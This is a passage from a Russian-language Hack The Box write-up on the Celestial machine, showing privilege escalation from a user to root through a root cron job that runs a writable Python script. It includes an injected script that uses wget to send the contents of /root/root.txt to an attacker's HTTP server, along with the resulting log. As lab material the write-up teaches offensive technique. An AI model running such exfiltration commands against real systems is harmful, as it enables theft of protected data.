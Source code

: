 ```
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

За сим все, машина наша.

## PrivEsc: sun → root. Способ 2
Чтобы не мучиться с реверс-шеллом, можно прибегнуть к хитрости. Для начала запустим на Kali-машине локальный HTTP-сервер (простого питоновского будет достаточно):
```
root@kali:~/tmp# python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...

```

После чего с машины-жертвы сделаем попытку скачать несуществующий файл, имеющий название, совпадающее с содержимым флага root'а:
```text
sun@sun:~$ echo 'import os;os.system("wget http://<LHOST>:8888/$(cat /root/root.txt)");print "f4ckU!"' > Documents/script.py
```

Ждем ⩽ 5 минут, и, о чудо:
```text
Serving HTTP on 0.0.0.0 port 8888 ...
10.10.10.85 - - [24/Aug/2018 22:25:02] code 404, message File not found
10.10.10.85 - - [24/Aug/2018 22:25:02] "GET /ba1d0019???????????????????????? HTTP/1.1" 404 -
```

Мы спровоцировали ошибку, получив при этом содержимое нужного файла. Полюбуемся теперь на собственное хулиганство (и одновременно доказательство того, что скрипт успешно отработал до конца):
```
sun@sun:~$ cat output.txt
f4ckU!
```

Celestial пройден :triumph:

![owned-user.png](/assets/images/htb/machines/celestial/owned-user.png)
{:.center-image}

![owned-root.png](/assets/images/htb/machines/celestial/owned-root.png)
{:.center-image}

![trophy.png](/assets/images/htb/machines/celestial/trophy.png)
{:.center-image}

# Эпилог
## server.js
Для общего развития можно посмотреть на `/home/sun/server.js`, отвечающий за все безобразие, которое происходило на web'е:
```javascript
// server.js

var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
```